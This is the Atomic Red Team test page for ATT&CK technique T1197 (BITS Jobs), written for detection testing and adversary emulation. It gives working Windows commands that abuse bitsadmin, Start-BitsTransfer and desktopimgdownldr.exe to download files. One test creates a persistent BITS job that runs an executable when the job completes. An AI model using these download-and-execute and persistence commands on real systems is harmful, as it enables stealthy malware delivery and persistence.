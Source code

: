 # T1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1197)
<blockquote>Adversaries may abuse BITS jobs to persistently execute or clean up after malicious payloads. Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM).(Citation: Microsoft COM)(Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through [PowerShell](https://attack.mitre.org/techniques/T1059/001) and the [BITSAdmin](https://attack.mitre.org/software/S0190) tool.(Citation: Microsoft BITS)(Citation: Microsoft BITSAdmin)

Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls.(Citation: CTU BITS Malware June 2016)(Citation: Mondok Windows PiggyBack BITS May 2007)(Citation: Symantec BITS May 2007) BITS enabled execution may also enable persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots).(Citation: PaloAlto UBoatRAT Nov 2017)(Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).(Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Bitsadmin Download (cmd)](#atomic-test-1---bitsadmin-download-cmd)

- [Atomic Test #2 - Bitsadmin Download (PowerShell)](#atomic-test-2---bitsadmin-download-powershell)

- [Atomic Test #3 - Persist, Download, & Execute](#atomic-test-3---persist-download--execute)

- [Atomic Test #4 - Bits download using desktopimgdownldr.exe (cmd)](#atomic-test-4---bits-download-using-desktopimgdownldrexe-cmd)


<br/>

## Atomic Test #1 - Bitsadmin Download (cmd)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows


**auto_generated_guid:** 3c73d728-75fb-4180-a12f-6712864d7421





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | %temp%&#92;bitsadmin1_flag.ps1|


#### Attack Commands: Run with `command_prompt`! 


```cmd
bitsadmin.exe /transfer /Download /priority Foreground #{remote_file} #{local_file}
```

#### Cleanup Commands:
```cmd
del #{local_file} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Bitsadmin Download (PowerShell)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

Upon execution you will find a github markdown file downloaded to the Temp directory

**Supported Platforms:** Windows


**auto_generated_guid:** f63b8bc4-07e5-4112-acba-56f646f3f0bc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | $env:TEMP&#92;bitsadmin2_flag.ps1|


#### Attack Commands: Run with `powershell`! 


```powershell
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```

#### Cleanup Commands:
```powershell
Remove-Item #{local_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Persist, Download, & Execute
This test simulates an adversary leveraging bitsadmin.exe to schedule a BITS transferand execute a payload in multiple steps.
Note that in this test, the file executed is not the one downloaded. The downloading of a random file is simply the trigger for getting bitsdamin to run an executable.
This has the interesting side effect of causing the executable (e.g. notepad) to run with an Initiating Process of "svchost.exe" and an Initiating Process Command Line of "svchost.exe -k netsvcs -p -s BITS"
This job will remain in the BITS queue until complete or for up to 90 days by default if not removed.

**Supported Platforms:** Windows


**auto_generated_guid:** 62a06ec5-5754-47d2-bcfc-123d8314c6ae





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_path | Path of command to execute | path | C:&#92;Windows&#92;system32&#92;notepad.exe|
| bits_job_name | Name of BITS job | string | AtomicBITS|
| local_file | Local file path to save downloaded file | path | %temp%&#92;bitsadmin3_flag.ps1|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|


#### Attack Commands: Run with `command_prompt`! 


```cmd
bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} NULL
bitsadmin.exe /resume #{bits_job_name}
timeout 5
bitsadmin.exe /complete #{bits_job_name}
```

#### Cleanup Commands:
```cmd
del #{local_file} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Bits download using desktopimgdownldr.exe (cmd)
This test simulates using desktopimgdownldr.exe to download a malicious file
instead of a desktop or lockscreen background img. The process that actually makes 
the TCP connection and creates the file on the disk is a svchost process (“-k netsvc -p -s BITS”) 
and not desktopimgdownldr.exe. See https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/

**Supported Platforms:** Windows


**auto_generated_guid:** afb5e09e-e385-4dee-9a94-6ee60979d114





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| download_path | Local file path to save downloaded file | path | SYSTEMROOT=C:&#92;Windows&#92;Temp|
| cleanup_path | path to delete file as part of cleanup_command | path | C:&#92;Windows&#92;Temp&#92;Personalization&#92;LockScreenImage|
| cleanup_file | file to remove as part of cleanup_command | string | *.md|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set "#{download_path}" && cmd /c desktopimgdownldr.exe /lockscreenurl:#{remote_file} /eventName:desktopimgdownldr
```

#### Cleanup Commands:
```cmd
del #{cleanup_path}\#{cleanup_file} >null 2>&1
```





<br/>
